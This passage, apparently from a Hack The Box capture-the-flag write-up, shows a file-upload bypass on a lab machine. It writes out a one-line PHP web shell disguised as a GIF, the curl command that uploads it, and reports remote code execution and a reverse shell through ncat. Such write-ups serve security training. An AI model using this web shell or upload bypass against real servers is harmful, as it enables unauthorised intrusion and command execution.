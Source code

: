 <div class="filename"><span>lib.php</span></div>

```php
function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}
```

As long as the extension ends with one of extensions, we should be able to upload a PHP file with double extension, e.g. `cmd.php.gif`. Here's what `cmd.php.gif` looks like.

<div class="filename"><span>cmd.php.gif</span></div>

```php
GIF89a
<pre><?php echo shell_exec($_GET[0]); ?></pre>
```

Let's give it a shot.

```
# curl -F "myFile=@cmd.php.gif;type=image/gif" -F "submit=go" http://10.10.10.146/upload.php
<p>file uploaded, refresh gallery</p>
```


{% include image.html image_alt="65789937.png" image_src="/6068fb94-75a3-457c-bf70-9853d9114395/65789937.png" %}


Awesome. It got uploaded.


{% include image.html image_alt="844b4736.png" image_src="/6068fb94-75a3-457c-bf70-9853d9114395/844b4736.png" %}


And we got remote code execution!

## Low-Privilege Shell

The creator was kind to leave `ncat` installed. We can simply use that to give us a reverse shell.


{% include image.html image_alt="77c4e58d.png" image_src="/6068fb94-75a3-457c-bf70-9853d9114395/77c4e58d.png" %}


On my `nc` listener, a reverse shell comes knocking.


{% include image.html image_alt="3ccf4fda.png" image_src="/6068fb94-75a3-457c-bf70-9853d9114395/3ccf4fda.png" %}


## Privilege Escalation


[1]: https://www.hackthebox.eu/home/machines/profile/203
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/